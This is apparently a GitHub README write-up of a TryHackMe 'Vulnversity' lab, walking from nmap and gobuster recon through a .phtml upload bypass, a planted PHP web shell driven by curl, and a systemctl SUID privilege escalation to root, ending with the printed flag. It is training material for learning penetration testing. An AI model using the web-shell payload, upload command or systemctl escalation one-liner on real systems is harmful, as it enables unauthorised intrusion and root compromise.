










<div align="center">

# 💥 Vulnerability Assessment — Vulnversity (Full Chain to Root)

**Project 09 of 10 — Foundational Projects**

Penetration Testing & Privilege Escalation


A full black-box penetration test against a TryHackMe target: reconnaissance, web enumeration, a file-upload filter bypass, command execution through a planted web shell, and privilege escalation via a misconfigured SUID binary — ending with root and the flag.

</div>

---

## 📑 Table of Contents

1. [At a Glance](#at-a-glance)
2. [Project Background](#project-background)
3. [Environment](#environment)
4. [Project Flow](#project-flow)
5. [Attack Walkthrough](#attack-walkthrough)
6. [Findings Summary](#findings-summary)
7. [Full Attack Chain](#full-attack-chain)
8. [What I Got Wrong](#what-i-got-wrong)
9. [Challenges & Fixes](#challenges-fixes)
10. [Scope & Limitations](#scope-limitations)
11. [Key Lesson](#key-lesson)
12. [Skills Demonstrated](#skills-demonstrated)
13. [Screenshot Index](#screenshot-index)
14. [Repo Structure](#repo-structure)

---

<a id="at-a-glance"></a>
## 📊 At a Glance

| 🧩 Phases | 🖼️ Screenshots | 🔑 Access Gained | 🚩 Flag Retrieved |
|:---:|:---:|:---:|:---:|
| **7** | **7** | **www-data → root** | **`a58ff8579f0a9270368d33a9966c7fd5`** |

---

<a id="project-background"></a>
## 📖 Project Background

A full black-box penetration test run against a TryHackMe target machine (**Vulnversity** room): reconnaissance, web server enumeration, a file upload filter bypass, command execution through a planted web shell, and privilege escalation via a misconfigured SUID binary — ending with root access and the flag.

> [!NOTE]
> TryHackMe's free-tier session limit expired multiple times during reconnaissance, requiring redeployment to a new target machine. The actual exploit chain — file upload through root access — was performed entirely on a single machine without switching mid-chain.

---

<a id="environment"></a>
## 🖧 Environment

| Item | Value |
|---|---|
| **Lab Source** | TryHackMe — Vulnversity room |
| **Recon Tool** | Nmap |
| **Enumeration Tool** | Gobuster |
| **Shell Interaction** | curl (HTTP-based web shell, not a reverse shell) |
| **PrivEsc Technique** | GTFOBins — `systemctl` SUID abuse |
| **Attacker Host (final run)** | `10.129.134.187` |
| **Target (final run)** | `10.129.159.237` |
| **Web Port** | 3333 (Apache 2.4.41) |

---

<a id="project-flow"></a>
## ⏱️ Project Flow


<p align="center"><em>Colors distinguish each attack stage — all stages complete.</em></p>

---

<a id="attack-walkthrough"></a>
## 🔵 Attack Walkthrough

**Objective:** Mirror a real external-to-root compromise — initial foothold through a web application flaw, then privilege escalation through a misconfigured system binary.



### Phase 1 — Target Deployment ✅
Deployed the AttackBox via TryHackMe.

- Attacker Host IP: `10.114.168.176`
- Target IP: not yet known at this stage — discovered via Nmap in Phase 2

<p align="center">
  <br>
  <em>Phase 1 — AttackBox and target machine deployed</em>
</p>

### Phase 2 — Reconnaissance ✅

```text
nmap -sV -Pn 10.114.131.169
```

Found 6 open ports:

| Port | Service | Version |
|:---:|---|---|
| 21 | FTP | vsftpd 3.0.5 |
| 22 | SSH | OpenSSH 8.2p1 |
| 139 / 445 | Samba | smbd 4.6.2 |
| 3128 | Squid Proxy | 4.10 |
| **3333** | **Apache Web Server** | **2.4.41 ← primary attack surface** |

<p align="center">
  <br>
  <em>Phase 2 — Open ports and service versions identified</em>
</p>

### Phase 3 — Web Directory Enumeration ✅

```text
gobuster dir -u http://10.114.131.169:3333 -w /usr/share/wordlists/dirb/common.txt
```

Found an unindexed path: `/internal/` (Status: 301) — an internal file upload utility.

<p align="center">
  <br>
  <em>Phase 3 — Hidden /internal/ upload path discovered</em>
</p>

> Session expired after this point — redeployed to a new target machine. All remaining phases were carried out continuously on the new machine: Attacker `10.129.134.187`, Target `10.129.159.237`.

### Phase 4 — File Upload Filter Bypass ✅
The upload form blocked `.php` files directly. Renaming the payload to `.phtml` bypassed the filter while still executing as PHP:

```text
printf '<?php system($_GET["cmd"]); ?>' > shell.phtml && curl -F "file=@shell.phtml" -F "submit=Submit" http://10.129.159.237:3333/internal/index.php
```

<p align="center">
  <br>
  <em>Phase 4 — .phtml upload bypassing the extension filter</em>
</p>

### Phase 5 — Web Shell Command Execution Confirmed ✅
Verified the uploaded shell worked by passing a command through the `cmd` parameter:

```text
curl "http://10.129.159.237:3333/internal/uploads/shell.phtml?cmd=whoami"
```

**Output:** `www-data` — confirmed command execution as the web server's service account.

> This is command execution via a web shell over HTTP, not an interactive reverse shell — no listener or reverse connection was used at any point in this chain.

<p align="center">
  <br>
  <em>Phase 5 — whoami confirms command execution as www-data (via web shell, not a reverse shell)</em>
</p>

### Phase 6 — SUID Binary Discovery ✅

```text
curl "http://10.129.159.237:3333/internal/uploads/shell.phtml?cmd=ls+-la+/bin/systemctl"
```

**Output:** `-rwsr-xr-x 1 root root 996584 Jun 17 2024 /bin/systemctl`

The `s` in the permissions confirms the SUID bit is set on `systemctl` — meaning it runs with root privileges regardless of who executes it. This is a known, documented privilege escalation vector (GTFOBins).

<p align="center">
  <br>
  <em>Phase 6 — systemctl found with SUID bit set</em>
</p>

### Phase 7 — Privilege Escalation & Flag Retrieval ✅
Used the GTFOBins method for misconfigured `systemctl`: built a temporary systemd service unit that reads the root flag and writes it somewhere accessible, then loaded and ran it as root:

```text
curl -G --data-urlencode "cmd=TF=\$(mktemp).service; echo '[Service]' > \$TF; echo 'Type=oneshot' >> \$TF; echo 'ExecStart=/bin/sh -c \"cat /root/root.txt > /tmp/flag.txt\"' >> \$TF; echo '[Install]' >> \$TF; echo 'WantedBy=multi-user.target' >> \$TF; /bin/systemctl link \$TF; /bin/systemctl enable --now \$TF; cat /tmp/flag.txt" "http://10.129.159.237:3333/internal/uploads/shell.phtml"
```

**Flag retrieved:** `a58ff8579f0a9270368d33a9966c7fd5`

<p align="center">
  <br>
  <em>Phase 7 — Root flag retrieved via GTFOBins technique</em>
</p>

🎯 **Result:** Full external-to-root chain completed — web upload bypass to foothold, SUID misconfiguration to root, flag confirmed.

---

<a id="findings-summary"></a>
## 🌟 Findings Summary

| 🛡️ Stage | ✅ Status | 📌 Detail |
|---|---|---|
| Reconnaissance | Complete | 6 open ports, Apache on 3333 identified as attack surface |
| Web enumeration | Complete | Hidden `/internal/` upload path found via Gobuster |
| Foothold | Achieved | `.phtml` bypass → command execution as `www-data` |
| Privilege escalation | Achieved | `systemctl` SUID bit abused via GTFOBins → root |

---

<a id="full-attack-chain"></a>
## 🎯 Full Attack Chain



| Stage | Technique | Outcome |
|:---:|---|---|
| Recon | Nmap service/version scan | Attack surface identified (port 3333) |
| Enumeration | Gobuster directory brute-force | Hidden upload endpoint found |
| Initial Access | Extension filter bypass (`.phtml`) | Web shell planted |
| Privilege Escalation | GTFOBins — `systemctl` SUID | Root access + flag |

---

<a id="what-i-got-wrong"></a>
## ⚠️ What I Got Wrong

- First Nmap scan returned nothing — the target had just booted and wasn't responding to host discovery pings yet. Fixed by adding `-Pn` to skip the ping check entirely.
- TryHackMe's free-tier session expired mid-recon more than once, forcing redeployment to a fresh target machine and re-running earlier steps.
- Pasting the full target IP directly into long commands occasionally got clipped by terminal width issues, breaking the command. Fixed by breaking the IP into shell variables and reconstructing it before use.
- Initially labeled the web shell access as a "reverse shell" — inaccurate. It was command execution through HTTP requests to a planted PHP file, not an interactive reverse connection. Corrected the terminology to match what actually happened.

---

<a id="challenges-fixes"></a>
## ⚠️ Challenges & Fixes

| ❌ Challenge | ✅ Fix |
|---|---|
| Nmap returned no results against a freshly booted host | Added `-Pn` to skip host-discovery ping |
| Session expired mid-recon, target machine changed | Redeployed and re-ran recon; exploit chain itself stayed on one machine |
| `.php` uploads were blocked by the upload filter | Renamed payload to `.phtml`, which still executes as PHP |
| Mislabeled web shell access as a "reverse shell" | Corrected terminology — HTTP-based command execution, not an interactive reverse connection |

---

<a id="scope-limitations"></a>
## 🚧 Scope & Limitations

- **Training lab, not live engagement:** Target is a TryHackMe room, not an authorized real-world assessment.
- **Single privilege escalation path:** Only the `systemctl` SUID vector was explored; other potential escalation paths on the box were not enumerated.
- **No post-exploitation persistence:** Chain stops at flag retrieval — no persistence mechanism, lateral movement, or cleanup was performed.

---

<a id="key-lesson"></a>
## 🧠 Key Lesson

A SUID misconfiguration on a single binary (`systemctl`, in this case) was enough to go from a low-privilege web service account to full root access — no separate exploit needed, just a documented technique (GTFOBins) applied to a binary that should never have had the SUID bit set. Checking for SUID binaries (`find / -perm -4000`) is one of the first things to try after gaining any shell access, low-privilege or not.

---

## 🌍 Real-World Application

This mirrors a real external-to-root compromise: initial foothold through a web application's file upload flaw, then privilege escalation through a misconfigured system binary. Both stages — finding the upload bypass and checking for SUID misconfigurations — are standard steps in any real penetration test or red team engagement, not just CTF-specific tricks.

---

<a id="skills-demonstrated"></a>
## 🛠️ Skills Demonstrated

- Service/version enumeration with Nmap, including handling non-responsive hosts (`-Pn`)
- Hidden directory discovery with Gobuster
- Identifying and bypassing weak file-upload filters (extension-based, not content-based)
- Interacting with a planted web shell via raw HTTP requests (`curl`)
- Identifying and exploiting SUID misconfigurations using GTFOBins
- Accurately distinguishing web-shell command execution from an interactive reverse shell

---

<a id="screenshot-index"></a>
## 🖼️ Screenshot Index

| # | File | Shows |
|:---:|---|---|
| 1 | `SS1_Machine_Deployed.PNG` | AttackBox and target machine deployed |
| 2 | `SS2_Nmap_Scan_Results.PNG` | Open ports and service versions identified |
| 3 | `SS3_Gobuster_Directories_Found.PNG` | Hidden `/internal/` upload path discovered |
| 4 | `SS4_Upload_Bypass.PNG` | `.phtml` upload bypassing the extension filter |
| 5 | `SS5_Reverse_Shell_Connected.PNG` | `whoami` confirms command execution as `www-data` (via web shell, not an interactive reverse shell) |
| 6 | `SS6_SUID_Binaries_Found.PNG` | `systemctl` found with SUID bit set |
| 7 | `SS7_Root_Access_Confirmed.PNG` | Root flag retrieved via GTFOBins technique |

---

<a id="repo-structure"></a>
## 📁 Repo Structure

```text
1-Foundational-Projects/project-09-vulnerability-assessment-report/
|-- README.md
`-- screenshots/
    |-- SS1_Machine_Deployed.PNG
    |-- SS2_Nmap_Scan_Results.PNG
    |-- SS3_Gobuster_Directories_Found.PNG
    |-- SS4_Upload_Bypass.PNG
    |-- SS5_Reverse_Shell_Connected.PNG
    |-- SS6_SUID_Binaries_Found.PNG
    `-- SS7_Root_Access_Confirmed.PNG
```

<div align="center">

💥 **[TryHackMe — Vulnversity](https://tryhackme.com/room/vulnversity)** · 🛠️ **[GTFOBins — systemctl](https://gtfobins.github.io/gtfobins/systemctl/)**

</div>
